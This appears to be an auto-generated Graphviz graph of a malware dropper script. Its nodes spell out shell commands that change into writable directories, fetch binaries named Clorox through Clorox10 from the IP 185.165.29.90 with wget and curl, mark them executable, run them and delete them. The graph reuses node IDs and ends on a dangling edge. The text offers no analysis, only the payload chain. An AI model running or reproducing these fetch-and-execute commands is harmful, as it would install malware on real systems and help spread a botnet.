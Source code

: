 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://185.165.29.90/Clorox "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.165.29.90/Clorox "];
12 -> 14 [label=";,"];
14 [label="chmod +x Clorox "];
14 -> 16 [label=";,"];
16 [label="./Clorox "];
16 -> 18 [label=";,"];
18 [label="rm -rf Clorox "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://185.165.29.90/Clorox1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://185.165.29.90/Clorox1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x Clorox1 "];
34 -> 36 [label=";,"];
36 [label="./Clorox1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf Clorox1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://185.165.29.90/Clorox2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://185.165.29.90/Clorox2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x Clorox2 "];
54 -> 56 [label=";,"];
56 [label="./Clorox2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf Clorox2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://185.165.29.90/Clorox3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://185.165.29.90/Clorox3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x Clorox3 "];
74 -> 76 [label=";,"];
76 [label="./Clorox3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf Clorox3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://185.165.29.90/Clorox4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://185.165.29.90/Clorox4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x Clorox4 "];
94 -> 96 [label=";,"];
96 [label="./Clorox4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf Clorox4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://185.165.29.90/Clorox5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://185.165.29.90/Clorox5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x Clorox5 "];
114 -> 116 [label=";,"];
116 [label="./Clorox5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf Clorox5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://185.165.29.90/Clorox6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://185.165.29.90/Clorox6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x Clorox6 "];
134 -> 136 [label=";,"];
136 [label="./Clorox6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf Clorox6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://185.165.29.90/Clorox7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://185.165.29.90/Clorox7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x Clorox7 "];
154 -> 156 [label=";,"];
156 [label="./Clorox7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf Clorox7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://185.165.29.90/Clorox8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://185.165.29.90/Clorox8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x Clorox8 "];
174 -> 176 [label=";,"];
176 [label="./Clorox8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf Clorox8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://185.165.29.90/Clorox9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://185.165.29.90/Clorox9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x Clorox9 "];
194 -> 196 [label=";,"];
196 [label="./Clorox9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf Clorox9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://185.165.29.90/Clorox10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://185.165.29.90/Clorox10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox10 "];
214 -> 216 [label=";,"];
216 [label="./Clorox10 "];
216 -> 217 [label=";,"];
}

